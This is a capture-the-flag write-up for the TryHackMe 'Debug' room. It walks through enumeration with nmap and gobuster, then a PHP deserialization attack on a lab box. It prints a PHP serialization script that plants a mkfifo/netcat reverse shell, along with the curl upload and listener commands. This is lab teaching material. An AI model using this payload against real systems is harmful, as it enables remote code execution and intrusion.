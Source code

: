 ```yaml
---
title: Debug
layout: post
author: Bit Criminals Team
date: 2021-06-11 12:07:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/debug
---
```


First, connect to TryHackMe using OpenVPN (or use the AttackBox if you prefer that)start the machine from tryhackme, wait for one minute so that the IP Address shows. Now, we are reading to do our hacking!

## TASK 1

The task is to deploy the box, which we have already done. So click on **Completed** and move on.

## TASK 2

First, let's do a basic nmap scan:
```shell
nmap -Pn -A $MACHINE_IP
```

![](/images/v1per/Debug_1.png)

So, we get 2 open ports: **Port 22 (SSH)** and **Port 80 (HTTP)**

We can see that there's a web-server open, so let's visit the website.
**http://$MACHINE_IP:80**

![](/images/v1per/Debug_2.png)

It's an Apache2 Ubuntu Default page. Nothing much in here. Let's run gobuster in directory busting mode to find some hidden directories.

```shell
gobuster dir -u <box_ip> -w /usr/share/wordlists/dirb/common.txt -z -x html,txt,php
```

![](/images/v1per/Debug_3.png)

We find a **/backup** directory. Let's visit it: **http://$MACHINE_IP:80/backup**

![](/images/v1per/Debug_4.png)

The file which stands out here is the **index.php.bak** (backup files always contain something fishy). Let's download it and see it's contents.
This part stood out:

![](/images/v1per/Debug_5.png)

So, our best guess at this moment is a PHP Deserialization attack. 
Note that we also found a **/index.php** from gobuster. Visiting it, we see a Form Submit area. 

![](/images/v1per/Debug_6.png)

Filling it with arbitrary values and submitting it, we see that it gets displayed in **http://$MACHINE_IP:80/message.txt**, which is what the PHP file we found is doing. I wrote this PHP code for the attack (replace $your_tun0_IP with, well, what it says):

```php
<?php
class FormSubmit{
        public $form_file = 'lol.php';
        public $message = '<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $your_tun0_IP 1234 >/tmp/f"); ?>';
}
$obj = new FormSubmit();
echo urlencode(serialize($obj));
?>
```

Now, run the PHP file using:
```shell
php <your_php_file.php>
```

![](/images/v1per/Debug_7.png)

Copy this output, and run the following command to upload our payload:
```shell
curl -i http://$MACHINE_IP:80/index.php?debug=<copied_text>
```
or just visit the following website:
**http://$MACHINE_IP:80/index.php?debug=<copied_text>**

![](/images/v1per/Debug_8.png)

Now, let's set up a netcat listener on our terminal:
```shell
nc -lnvp 1234
```
and navigate to **http://$MACHINE_IP:80/lol.php**.
And YAY! We have got our shell!

![](/images/v1per/Debug_9.png)

